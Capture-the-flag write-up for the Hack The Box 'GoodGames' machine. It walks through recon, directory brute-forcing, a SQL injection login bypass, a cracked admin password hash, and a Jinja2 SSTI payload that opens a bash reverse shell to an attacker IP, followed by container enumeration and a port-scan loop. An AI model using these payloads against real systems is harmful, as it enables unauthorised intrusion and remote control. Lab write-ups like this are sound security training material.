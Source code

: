 ```yaml
---
title: "HTB - GoodGames"
classes: wide
header:
  teaser: /assets/images/htb/htb.png
ribbon: blue
description: "Writeup for HTB - GoodGames"
categories:
  - HTB
---
```


The given box ```GoodGames``` is a Linux machine 

- [HackTheBox- GoodGames](#hackthebox---GoodGames)
  
![[GoodGames.png]]

## Recon

### Nmap Scan

`nmap` found 1 open port on TCP.

```shell
┌──(root💀kali)-[~/HTB/LINUX/goodgames]
└─# cat goodgames.nmap 
# Nmap 7.92 scan initiated Mon Aug 29 00:08:26 2022 as: nmap -Pn -sC -sV -oN goodgames.nmap -v 10.10.11.130
Nmap scan report for 10.10.11.130
Host is up (0.73s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS POST
|_http-title: GoodGames | Community and Store
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Service Info: Host: goodgames.htb

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 29 00:08:48 2022 -- 1 IP address (1 host up) scanned in 22.21 seconds
```

adding the hostname to the `/etc/hosts` file, `10.10.11.130 goodgames.htb`

## Enumeration

### Site

![[Pasted image 20220828221521.png]]

### Directory Bruteforcing

```shell
┌──(root💀kali)-[~/HTB/LINUX/goodgames]
└─# cat goodgames.directory 
WLD      GET      267l      548w     9265c Got 200 for http://goodgames.htb/79429cd6a70f439f93cc072980cdfbd9 (url length: 32)
WLD      GET      267l      548w     9265c Got 200 for http://goodgames.htb/405c619e4ba94edda067cee0d6f8c11135cb33401cb24be7bed708b7083954ac561dfdc602a24d0a90919ac9f0e96cd8 (url length: 96)
200      GET      267l      553w     9294c http://goodgames.htb/login
200      GET      267l      545w     9267c http://goodgames.htb/profile
200      GET     1735l     5548w    85107c http://goodgames.htb/
200      GET      909l     2572w    44212c http://goodgames.htb/blog
200      GET      728l     2070w    33387c http://goodgames.htb/signup
302      GET        4l       24w      208c http://goodgames.htb/logout => http://goodgames.htb/
200      GET      730l     2069w    32744c http://goodgames.htb/forgot-password
200      GET      287l      620w    10524c http://goodgames.htb/coming-soon
```

### Creating Account

![[Pasted image 20220828222553.png]]

![[Pasted image 20220828222700.png]]

![[Pasted image 20220828222730.png]]

### Getting into admin 

`SQL Injection` login attack, payloads from `HackTricks`

![[Pasted image 20220828223420.png]]

![[Pasted image 20220828224125.png]]

![[Pasted image 20220828224604.png]]

![[Pasted image 20220828224739.png]]

![[Pasted image 20220828225010.png]]

### Crack Password

`2b22337f218b2d82dfc3b6f77e7cb8ec` -> superadministrator


![[Pasted image 20220828225745.png]]

### New host

http://internal-administration.goodgames.htb/index added to `/etc/hosts` file

![[Pasted image 20220828225837.png]]

![[Pasted image 20220828225854.png]]

In place fullname we are going to try SSTI exploits,

![[Pasted image 20220828230016.png]]

### Shell

`{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.16.2/9001  0>&1"').read() }}`

```shell
┌──(root💀kali)-[~/HTB/LINUX/goodgames]
└─# rlwrap nc -lvnp 9001                         
listening on [any] 9001 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.130] 58156
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
ls
ls
Dockerfile
project
requirements.txt
```

```shell
mount | grep augustus
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
```

```shell
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.19.0.2  netmask 255.255.0.0  broadcast 172.19.255.255
        ether 02:42:ac:13:00:02  txqueuelen 0  (Ethernet)
        RX packets 68620  bytes 4064732 (3.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 68839  bytes 6890172 (6.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 254  bytes 28392 (27.7 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 254  bytes 28392 (27.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

```shell
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null 
<9.0.1/$port && echo "$port open"; done 2>/dev/null 
22 open
80 open
```

